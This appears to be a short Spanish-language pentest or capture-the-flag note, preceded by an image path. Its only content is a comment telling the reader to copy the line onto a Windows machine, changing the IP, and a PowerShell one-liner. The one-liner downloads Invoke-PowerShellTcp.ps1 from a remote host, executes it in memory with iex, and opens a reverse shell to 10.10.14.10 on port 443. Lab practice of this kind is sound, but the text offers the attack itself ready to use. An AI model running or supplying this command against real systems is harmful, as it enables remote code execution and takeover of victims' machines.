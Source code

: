 #Copiar en la maquina windows (cambiando la IP del comando y del script) para obtener la reverse shell

powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.10:4141/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.10 -Port  443

